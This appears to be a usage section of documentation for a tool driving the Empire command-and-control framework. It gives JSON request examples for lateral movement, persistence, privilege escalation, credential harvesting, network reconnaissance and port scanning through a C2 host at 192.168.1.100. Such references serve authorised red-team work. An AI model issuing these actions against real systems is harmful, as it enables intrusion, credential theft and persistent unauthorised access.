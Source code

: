 ### Lateral Movement
```bash
# Lateral movement
{
  "action": "lateral_movement",
  "agent_id": "agent_001",
  "target_host": "192.168.1.200",
  "empire_host": "192.168.1.100",
  "empire_port": 1337
}
```

### Persistence
```bash
# Establish persistence
{
  "action": "persistence",
  "agent_id": "agent_001",
  "empire_host": "192.168.1.100",
  "empire_port": 1337
}
```

### Privilege Escalation
```bash
# Privilege escalation
{
  "action": "privilege_escalation",
  "agent_id": "agent_001",
  "empire_host": "192.168.1.100",
  "empire_port": 1337
}
```

### Credential Harvesting
```bash
# Harvest credentials
{
  "action": "credential_harvest",
  "agent_id": "agent_001",
  "empire_host": "192.168.1.100",
  "empire_port": 1337
}
```

### Network Reconnaissance
```bash
# Network reconnaissance
{
  "action": "network_recon",
  "agent_id": "agent_001",
  "empire_host": "192.168.1.100",
  "empire_port": 1337
}

# Port scan
{
  "action": "port_scan",
  "agent_id": "agent_001",
  "target": "192.168.1.0/24",
  "empire_host": "192.168.1.100",
  "empire_port": 1337
}
```